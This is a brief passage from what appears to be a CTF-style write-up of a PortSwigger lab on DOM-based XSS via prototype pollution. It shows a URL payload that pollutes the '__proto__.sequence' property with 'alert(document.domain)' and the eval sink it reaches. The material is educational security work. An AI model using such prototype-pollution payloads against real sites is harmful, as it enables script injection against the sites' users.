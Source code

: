 **To bypass that, we can add an `-` operator:**
```js
/?__proto__.sequence=alert(document.domain) -
```

**Hence the sink will be:**
```js
eval('alert(document.domain) -1');
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Prototype-Pollution/Prototype-2/images/Pasted%20image%2020230118200324.png)

Nice! We successfully polluted the `manager.sequence` attribute with our DOM-based XSS payload!

# What we've learned:

1. DOM XSS via an alternative prototype pollution vector